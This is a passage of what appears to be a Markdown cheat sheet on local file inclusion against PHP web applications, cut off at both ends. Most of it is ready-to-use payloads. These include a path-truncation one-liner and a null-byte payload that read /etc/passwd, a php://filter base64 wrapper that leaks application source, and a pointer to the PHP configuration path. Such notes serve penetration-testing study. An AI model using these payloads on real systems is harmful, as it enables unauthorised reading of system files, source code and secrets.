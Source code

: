 ```bash
echo -n "non_existing_directory/../../../etc/passwd/" && for i in {1..2048}; do echo -n "./"; done 
```

### **Null Bytes**

**Payload**

```bash
/etc/passwd%00.php
```

# PHP Wrappers and Filters

## **Source Code Disclosure**

### base64

```bash
php://filter/read=convert.base64-encode/resource=config
```

![lfi_image2.png](../Images/lfi_image2.png)

**Decoding the String**...

```php
echo 'PD9waHAK...SNIP...KICB9Ciov' | base64 -d

...SNIP...

if ($_SERVER['REQUEST_METHOD'] == 'GET' && realpath(__FILE__) == realpath($_SERVER['SCRIPT_FILENAME'])) {  header('HTTP/1.0 403 Forbidden', TRUE, 403);
  die(header('location: /index.php'));
}

...SNIP...
```

## Data Wrapper

### **Checking PHP Configurations**

**Apache config Path**

`/etc/php/X.Y/apache2/php.ini`
